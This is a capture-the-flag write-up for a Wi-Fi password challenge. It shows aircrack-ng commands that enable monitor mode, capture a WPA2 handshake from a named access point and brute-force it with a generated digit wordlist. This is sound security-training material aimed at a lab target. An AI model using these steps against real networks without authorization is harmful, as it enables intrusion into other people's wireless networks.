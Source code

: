 # Home Invasion Wifi Password - 1000

> Home Invasion WiFi password
>  
> This challenge will require you to intelligently guess the password for the Home Invasion WiFi password. You need this password to complete the other challenges. There is no dynamic points for this challenge. Submit your answer in the following format HI{12341234}. Hint: There are only eight digits to this password. The last four digits are the same as the first four digits; that should narrow your options down. Happy Hunting!

We were told to connect to a wireless access point called `Home Invasion` or `Home Invasion 5G`. However, no password was given.

### Preparing the wireless interface

Thus, we used the `aircrack-ng` suite of tools to brute-force the wifi password. 

We followed the guide on [this website](https://github.com/brannondorsey/wifi-cracking) closely.


First we ran `iw dev` to find the name of our wireless interface.
```
✗ iw dev
phy#0
	[...]
	Interface wlp1s0
	[...]
```

Then, we placed said wireless interface under monitor mode to listen to 802.11 Beacon frames. We listened to the Beacon frames by running `airodump-ng <interface>`.
```
$ airmon-ng start wlp1s0
[...]
$ iw dev
	[...]
	Interface wlp1s0mon0
	[...]
$ airodump-ng wlp1s0mon0
```

After sniffing the Beacon frames, and identifying our target wifi's BSSID, we proceeded to capture `Home Invasion`'s 4-way handshake.
The command for the capture was `airodump-ng -c 3 --bssid 34:97:F6:01:93:48 -w ./capture.cap wlp1s0mon0`
![](../img/iot_ctf2018_wifi_passwd_handshake.png)

### Preparing the wordlist

The hint that "the last four digits are the same as the first four digits" shortens the dictionary list by a large margin. Because of this clue, we only have ` 10 ^ 4  = 10 000` different combinations to try. We created the small Python script below to help us generate the word list.
```
>>> for i in range(1,10000):
...     print("%04d%04d" % (i,i))
```

We used `'0'` as paddings because we wanted to ensure that each word in the word list was 8 digits.
```
00010001
[...]
00090009
00100010
00110011
00120012
00130013
[...]
99879987
99889988
99899989
99909990
99919991
99929992
99939993
99949994
99959995
99969996
99979997
99989998
99999999
```

### Combining both together

After copying and pasting the output into a file called `word_list`, we used the following command to crack the password. 
```
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 34:97:F6:01:93:48 -w word_list capture.cap
```

The image below shows that the command successfully returned us the password for the wifi.
![](../img/iot_ctf2018_home_cracking_passwd.png)


In conclusion, the flag input is `HI{96859685}`.
